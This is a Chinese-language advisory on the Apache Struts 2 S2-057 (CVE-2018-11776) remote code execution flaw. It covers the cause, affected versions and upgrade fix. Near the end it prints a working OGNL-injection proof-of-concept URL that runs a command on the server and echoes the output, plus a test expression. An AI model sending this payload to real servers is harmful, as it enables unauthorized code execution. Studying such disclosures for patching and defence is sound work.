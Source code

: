 # 事件来源

Struts 2 是一个基于 MVC 设计模式的Web应用框架。其官方在 8 月 22 号发出安全通告及补丁，对其存在的一个远程代码执行漏洞进行修复：

https://cwiki.apache.org/confluence/display/WW/S2-057



该漏洞编号为 S2-057，CVE 编号为 CVE-2018-11776，**当在struts2开发框架中启用泛namespace功能，并且使用特定的result时，会触发远程代码执行漏洞。**由来自 Semmle 安全研究团队的成员 Man Yue Mo 发现并报告。



# 漏洞描述

当没有为基础 XML 配置中定义的 result 设置 namespace ，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，即可能造成远程代码执行漏洞。

  
同样地，当使用没有设置 value 和 action 的 url 标签，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，也可能会造成远程代码执行漏洞。



漏洞的发现者 Man Yue Mo 写了一篇博客，较详细地分享了他发现这个漏洞的过程和方法：

https://lgtm.com/blog/apache\_struts\_CVE-2018-11776



漏洞作者是在调试分析 Struts 2 历史漏洞 S2-032 , S2-033 和 S2-037 时发现的此漏洞，并且此漏洞也与 OGNL 表达式构造相关。



下图为漏洞作者利用此漏洞成功执行任意代码的截图：

![](/assets/s2-057-1.png)

# 影响范围

实际场景中存在一定局限性，需要满足一定条件。

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

  


# 解决方案

对 Structs 2 版本进行升级以更新安全补丁：

Struts 2.3.x 版本升级到 2.3.35

Struts 2.5.x 版本升级到 2.5.17



在线靶机测试：[https://github.com/jas502n/St2-057/blob/master/README.md](https://github.com/jas502n/St2-057/blob/master/README.md)

POC：

[http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b\(%23\_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\(%27calc%27\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)%7d/actionChain1.action](http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b%28%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char%5b51020%5d%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29%7d/actionChain1.action)



# 漏洞验证![](/assets/s2057-2.png)

传入OGNL表达式${2333+2333}![](/assets/s2057-3.png)成功带入执行函数，并执行![](/assets/s2057-4.png)返回结果至URL

